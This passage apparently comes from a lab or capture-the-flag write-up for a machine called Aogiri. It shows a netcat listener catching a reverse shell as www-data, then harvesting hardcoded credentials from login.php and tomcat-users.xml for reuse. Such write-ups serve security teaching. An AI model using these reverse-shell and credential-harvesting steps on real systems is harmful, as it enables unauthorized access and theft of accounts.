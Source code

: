 ![](pics/successupload.JPG)

```bash
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:48556.
Linux Aogiri 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:06:42 up 1 day,  7:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
First we check out a bunch of files in the webroot, the login.php has some hardcoded creds we should try using elsewhere maybe.
```php
$ cat login.php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');
---snip---
```
And then the tomcat-users.xml has another password to save for later.
